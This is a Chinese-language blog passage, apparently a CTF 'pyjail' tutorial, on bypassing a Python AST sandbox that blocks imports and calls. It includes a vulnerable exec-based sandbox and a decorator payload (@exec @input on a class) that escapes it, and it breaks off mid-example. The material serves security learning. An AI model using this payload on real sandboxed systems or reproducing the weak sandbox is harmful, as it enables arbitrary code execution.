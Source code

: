 ```yaml
---
title: pyjail bypass-08 绕过 AST 沙箱
date: 2023-05-30 10:23:57
categories:
- Python
tags:
- pyjail
toc: true
---
```



## 绕过 AST 沙箱
AST 沙箱会将用户的输入转化为操作码,此时字符串层面的变换基本上没用了,一般情况下考虑绕过 AST 黑名单. 例如下面的沙箱禁止了 ast.Import|ast.ImportFrom|ast.Call 这三类操作, 这样一来就无法导入模块和执行函数.

```py
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```
下面的几种利用方式来源于 hacktricks
### without call
如果基于 AST 的沙箱限制了执行函数,那么就需要找到一种不需要执行函数的方式执行系统命令.
#### 装饰器
利用 payload 如下:
```py
@exec
@input
class X:
    pass
```
当我们输入上述的代码后, Python 会打开输入,此时我们再输入 payload 就可以成功执行命令.
```python
>>> @exec
... @input
... class X:
```